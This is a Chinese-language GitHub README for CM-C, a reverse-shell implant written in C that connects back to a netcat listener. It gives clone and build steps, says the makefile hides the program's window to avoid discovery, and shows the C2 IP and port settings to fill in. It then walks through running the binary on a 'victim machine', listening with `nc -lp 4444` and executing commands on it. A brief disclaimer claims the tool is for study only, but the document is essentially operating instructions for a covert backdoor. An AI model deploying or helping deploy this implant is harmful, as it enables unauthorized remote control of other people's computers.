

# [CM-C](https://github.com/XiaoZhang-qd/cm-c "项目链接")
## 项目介绍
[CM-C](https://github.com/XiaoZhang-qd/cm-c "项目链接")是一个由C语言编写的反向Shell受控端。
用gcc或者clang、cl等等的编译器来编译后可直接运行。
控制端可以使用NetCat的nc或者ncat等等作为控制端。
已在[makefile](./makefile)里进入隐藏窗口和减少文件体积的编译命令，可避免被发现。
本项目可支持所以操作系统编译并执行




### 已经通过测试后可用的操作系统
- Windows
- Linux
- Macos(Datwin)

### 复制克隆命令:

```git
git clone https://github.com/XiaoZhang-qd/CM-C
```
### 进入项目目录:

```cd
cd CM-C
```
### 修改main.c源代码的C2_IP和C2_PORT为你的控制端IP和端口(如127.0.0.1和4444):

```c
// 默认配置，可以根据需要修改 C2 的 IP 和端口
#ifndef C2_IP
    #define C2_IP "127.0.0.1"
#endif
#ifndef C2_PORT
    #define C2_PORT 4444
#endif
```

#### 或者您可以直接使用make编译，它会要求你填入IP与端口（默认IP为127.0.0.1，端口为4444）
````makefile
make
````
> **注意：** 由于msys的特殊性，如果你用msys，输入完IP和PORT后，需要再输入exit退出cmd终端，有知道怎么解决的请到[issue](https://github.com/XiaoZhang-qd/cm-c/issues/1)给作者，谢谢。


## 编译

- 你需要先有make工具链
- Windows 系统可用MinGW、MSYC（可能会需要依赖msys-1.0.dll）、MSYC2（可能会需要依赖msys-2.0.dll）、Cygwin（可能会需要依赖cygwin1.dll）、WSL等等
- 其他的系统（如Linux、macOS、BSD等等）如果有你需要先有make工具链可直接编译。

````makefile
make
````

## 操作方法
1. 在受害机上运行编译后的可执行文件。
2. 控制端使用NetCat的nc或者ncat等等作为控制端，连接到受害机的IP和端口。
3. 如(nc)：
````bash
nc -lp 4444
````
4. 受害机上线后，控制端会显示信息如：
```

   _____    __  __               _____
  / ____|  |  \/  |             / ____|
 | |       | \  / |   ______   | |
 | |       | |\/| |  |______|  | |
 | |____   | |  | |            | |____
  \_____|  |_|  |_|             \_____|

Version: 1.0.0, Build: 2026-05-11 23:44:05
[*] Disconnection count: 0
[+] Connected successfully.
 {2026-05-10 18:35:29}-{(mapp.exe)[C:\Users\usus\项目\CM-C]}->
```
5. 控制端可以输入命令，受害机会执行并返回结果。
6. 控制端可以输入exit和quit可以退出连接。

- 现在你可以控制受害机啦！要注意[使用声明](#使用声明)哦。

## 有任何问题和建议，请[issue](https://github.com/XiaoZhang-qd/cm-c/issues/1)给作者，谢谢。

----------

## 使用声明
- 本项目仅用于学习和研究，不建议在生产环境中使用。
- 本项目不承担任何责任，不承担任何法律风险。
- 请在合法范围内使用本项目，不用于任何违法活动。
- 请在使用本项目时，遵守当地的法律和法规。
